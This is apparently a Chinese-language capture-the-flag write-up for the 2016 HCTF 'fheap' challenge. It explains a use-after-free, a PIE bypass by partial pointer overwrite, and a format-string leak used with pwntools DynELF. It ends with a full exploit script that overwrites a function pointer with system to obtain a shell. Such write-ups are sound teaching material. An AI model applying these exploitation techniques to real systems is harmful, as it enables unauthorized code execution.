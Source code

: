 ```yaml
---
title: 2016-HCTF-fheap-[UAF]
date: 2019-03-02 14:39:57
tags: [UAF,DynELF,PIE,format string]
---
```


## Analysis

```
Canary                        : Yes
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
程序有两个功能：1、create string 2、delete string
在create string函数中，当申请的字符串长度小于16字节时，会直接将字符串存放在堆中；如果大于等于16字节，就会另申请一块堆内存，并将指针存放在原堆块中。程序结构体如下所示

```
typedef struct String{
    union {
        char *buf;
        char array[16];
    } o;
    int len;
    void (*free)(struct String *ptr);
} String;
```
程序在delete string时free堆块，没有将堆指针设为NULL，导致存在UAF漏洞，可以通过UAF漏洞覆盖`void (*free)(struct String *ptr);`函数指针为我们想要执行的函数，因为函数开启了PIE，所以要绕过PIE。

## 利用UAF和partial overwrite绕过PIE
由于内存页的载入机制，PIE的随机化只能对单个内存页进行随机化，因为一个内存页的大小通常为0x1000，所以对于一个被随机化的地址来说，无论地址怎么变，它的低12bit，3个十六进制数不会变。所以可以通过partial overwrite，修改`void (*free)(struct String *ptr);`函数指针。
因为覆盖时只能覆盖整个字节（8bit或16bit，即2个或4个十六进制数），原函数指针后三位为0xD52，经观察puts函数`.text:0000000000000D2D                 call    _puts`后三位为0xD2D，所以只需要将0x52覆盖为0x2D就可以实现puts打印出puts的地址，然后减去0xD2D获取程序基址
```
        create(4,'bb')
        create(4,'cc')
        delete(1)
        delete(0)
        data='a' * 0x10 + 'b' * 0x8 + '\x2d'
        create(0x20, data)  #data被写进chunk1中
        delete(1)
        p.recvuntil('b' * 0x8)
        data = u64(p.recv(6).ljust(8,'\x00'))
        process_base = data - 0xd2d
        delete(0)

```
获取了程序的基址，接下来就是获取system函数的地址，因为程序为调用过system函数，所以使用pwntools的DynELF函数对程序使用的libc库进行搜索，获取system函数的地址。
## 利用UAF和格式化字符串漏洞获取system地址
DynELF是pwntools中专门用来应对无libc情况的漏洞利用模块，需要一个程序存在可以反复触发信息泄露的漏洞，从而可以不断泄露libc地址空间内的信息。
将`void (*free)(struct String *ptr);`覆盖为printf，进而构造利用格式化字符串漏洞泄露内存。leak函数如下
```
printf_plt = process_base + 0x9d0
def leak(addr):
        data = '%9$sAA' + '#'*(0x18 - len('%9$sAA')) + p64(printf_plt)
        create(0x20, data)
        p.recvuntil("quit")
        p.sendline("delete string")
        p.recvuntil('id:')
        p.sendline(str(1))
        p.recvuntil('sure?:')
        p.sendline('yes12345' + p64(addr))
        data = p.recvuntil('AA')[:-2]
        data += "\00"
        return data
```
发现printf函数调用时出现segmentation段错误，后来对比发现正常的printf函数流程在`<__printf+34>`当ZF=1时je会跳转，而`<__printf+7>:test   al,al`当al and al等于0时会将ZF标志寄存器置1，故al and al = 1时，je会跳转。段错误时，printf函数没有发生跳转，而是执行到`<__printf+36>`，发生错误。
```
0x7ff6ab807800 <__printf>:	sub    rsp,0xd8
   0x7ff6ab807807 <__printf+7>:	test   al,al
   0x7ff6ab807809 <__printf+9>:	mov    QWORD PTR [rsp+0x28],rsi
   0x7ff6ab80780e <__printf+14>:	mov    QWORD PTR [rsp+0x30],rdx
   0x7ff6ab807813 <__printf+19>:	mov    QWORD PTR [rsp+0x38],rcx
   0x7ff6ab807818 <__printf+24>:	mov    QWORD PTR [rsp+0x40],r8
   0x7ff6ab80781d <__printf+29>:	mov    QWORD PTR [rsp+0x48],r9
   0x7ff6ab807822 <__printf+34>:	je     0x7ff6ab80785b <__printf+91>
   0x7ff6ab807824 <__printf+36>:	movaps XMMWORD PTR [rsp+0x50],xmm0
   0x7ff6ab807829 <__printf+41>:	movaps XMMWORD PTR [rsp+0x60],xmm1
   0x7ff6ab80782e <__printf+46>:	movaps XMMWORD PTR [rsp+0x70],xmm2
   0x7ff6ab807833 <__printf+51>:	movaps XMMWORD PTR [rsp+0x80],xmm3
   0x7ff6ab80783b <__printf+59>:	movaps XMMWORD PTR [rsp+0x90],xmm4
   0x7ff6ab807843 <__printf+67>:	movaps XMMWORD PTR [rsp+0xa0],xmm5
   0x7ff6ab80784b <__printf+75>:	movaps XMMWORD PTR [rsp+0xb0],xmm6
   0x7ff6ab807853 <__printf+83>:	movaps XMMWORD PTR [rsp+0xc0],xmm7
   0x7ff6ab80785b <__printf+91>:	lea    rax,[rsp+0xe0]
   ......
```
所以讲`void (*free)(struct String *ptr);`指向0xF51，会将al置零
```
.text:0000000000000F51                 mov     eax, 0
.text:0000000000000F56                 call    _printf
.text:0000000000000F5B                 mov     rdx, [rbp+nbytes] ; nbytes
```
测试后发现，printf可以正常打印出地址，但是只能执行一次，因为DynELF要求leak函数能够重复执行，分析发现，原来的leak函数中函数指针指向print@plt，调用函数，函数的返回值不变，执行`delete(1)`后，能根据返回值，返回到菜单界面，再次执行`delete(0)`，而将函数指针指向0xF51时，调用了一个call，函数的返回到0xF5B，程序返回不到原来的菜单界面。
最后通过在leak函数前，再次`create(0x20,data)`，释放堆快，重新布局内存空间，不需要将函数指针指向0xF51也可以正常执行printf函数。
泄露出system函数地址后，再次利用函数指针，执行`/bin/sh;`获取shell。

## EXP
```
#!/usr/bin/env python
from pwn import *

p = process('./fheap')
DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = "debug")

def create(size,content):
	p.recvuntil("quit")
	p.sendline("create string")
	p.recvuntil("size:")
	p.sendline(str(size))
	p.recvuntil('str:')
	p.sendline(content.ljust(size,'\x00'))
	p.recvuntil('n')

def delete(idx):
	p.recvuntil("quit")
	p.sendline("delete string")
	p.recvuntil('id:')
	p.sendline(str(idx))
	p.recvuntil('sure?:')
	p.send('yes '+'\n')

printf_plt = 0

def leak(addr):
	delete(0)
	data = '%9$sAA' + '#'*(0x18 - len('%9$sAA')) + p64(printf_plt)
  create(0x20, data)
  p.recvuntil("quit")
  p.sendline("delete string")
  p.recvuntil('id:')
  p.sendline(str(1))
  p.recvuntil('sure?:')
  p.sendline('yes12345' + p64(addr))
  data = p.recvuntil('AA')[:-2]
	data += "\00"
	return data

def pwn():
	global printf_plt
	create(4,'bb')
	create(4,'cc')
	delete(1)
	delete(0)
	#get the base address of process due to the process has opened ASLR(PIE).
	data='a' * 0x10 + 'b' * 0x8 + '\x2d'
	create(0x20, data)
	delete(1)
	p.recvuntil('b' * 0x8)
	data = u64(p.recv(6).ljust(8,'\x00'))
	process_base = data - 0xd2d
	log.success('process_base:'+hex(process_base))
	printf_plt = process_base + 0x9d0
	log.success('printf_plt:'+hex(printf_plt))
	delete(0)

	data = 'a' * 0x10 + 'b' * 0x8 + '\x2d'
	create(0x20,data)
	delete(1)
	d = DynELF(leak,process_base,elf = ELF('./fheap'))
	system_addr = d.lookup('system','libc')
	delete(0)
	log.success('system_addr:'+hex(system_addr))

	data = '/bin/sh;' + '#'*(0x18 - len('/bin/sh;')) + p64(system_addr)
	create(0x20,data)
	delete(1)
	p.interactive()

if __name__ == '__main__':
	pwn()

```
